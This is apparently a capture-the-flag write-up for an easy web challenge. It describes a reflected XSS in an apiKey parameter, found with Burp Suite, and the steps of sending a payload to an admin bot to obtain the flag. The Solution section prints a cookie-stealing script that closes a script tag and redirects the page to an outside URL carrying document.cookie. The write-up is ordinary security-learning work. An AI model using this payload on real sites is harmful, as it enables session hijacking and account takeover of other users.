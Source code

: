 Although it's label as easy, but i took me hours just to grasp it so i'm writing a writeup for my own sake. huhuhuhuhuh

![Screenshot 2024-07-27 143941](https://github.com/user-attachments/assets/51cc83db-e9f0-4bfb-848f-9f93ea172cee)

Hint 1: Try to change the parameter<br />
Hint 2: Try to steal admin's cookie<br />

## Exploration
I found out that we could trigger alert function by inserting script into url under ```apiKey``` parameter.
![image](https://github.com/user-attachments/assets/4a93194b-e8d5-45bb-8cd5-de91d865e07f)
Therefore, we insert javascript that could steal cookies

## Solution
Step 1: Intercept traffic of reportAdmin() using Burp Suite and send to Repeater
![image](https://github.com/user-attachments/assets/6c1f8983-b585-4bd2-9f95-478dc607b1ac)
![image](https://github.com/user-attachments/assets/62d9d43e-5541-4bbf-bcc6-39edc43569b3)
![image](https://github.com/user-attachments/assets/3ea11497-1515-4bf5-af74-e89f03db0c0a)

Step 2: Craft the XSS Injection Payload to steal admin cookies<br />
In order for it to work, we need to make the payload into hex format. We can do this with Burp Suite in-build encoder and decoder.
We are going to use a very standard cookie stealing payload
</script><script>location.href="[URL]?c"+document.cookie</script>
![image](https://github.com/user-attachments/assets/94f6dafb-986d-4e1b-98e7-22c2b7906392)

Step 3: Send the payload to admin
![image](https://github.com/user-attachments/assets/8c4af8f7-5b72-47d9-b5f9-1a050223a948)
![image](https://github.com/user-attachments/assets/4d88accc-d206-4a9f-a964-379157081ae1)
TA-DA! we got flag!
